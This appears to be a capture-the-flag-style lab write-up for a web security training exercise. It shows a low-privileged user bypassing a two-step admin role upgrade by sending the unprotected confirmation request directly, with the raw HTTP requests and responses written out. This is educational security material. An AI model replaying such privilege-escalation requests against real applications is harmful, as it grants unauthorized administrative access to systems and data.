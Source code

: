# Lab: Multi-step process with no access control on one step

- After logging as administrator, we can see he can upgrade other users to privileged state.
- However, it is a 2 step process.
	- First, a `POST` request to `/admin-roles` is sent with parameters `username=carlos` and `action=upgrade`
	- Second, the server confirms the request by making the administrator send another `POST` request to `/admin-roles` with parameters `action=upgrade`, `confirmed=true` and `username=carlos`.
- The access control in first step seems to be correctly configured if we make request through `wiener`.

```
POST /admin-roles HTTP/1.1
Host: acdf1f0e1ef252f3c040299900f40032.web-security-academy.net
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: session=z3Wcq7Qltk1cs8maUJd5ZqVIHz77nVvO
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 30

username=carlos&action=upgrade
```

```
HTTP/1.1 401 Unauthorized
Content-Type: application/json; charset=utf-8
Connection: close
Content-Length: 14

"Unauthorized"
```

- However, the access control in second step is not correctly configured.

```
POST /admin-roles HTTP/1.1
Host: acdf1f0e1ef252f3c040299900f40032.web-security-academy.net
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: session=z3Wcq7Qltk1cs8maUJd5ZqVIHz77nVvO
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 45

action=upgrade&confirmed=true&username=wiener
```

```
HTTP/1.1 302 Found
Location: /admin
Connection: close
Content-Length: 0
```

- If we directly make a request to `/admin-roles` with the 2nd stage parameters, we get a `302` response which is definitely a good thing.
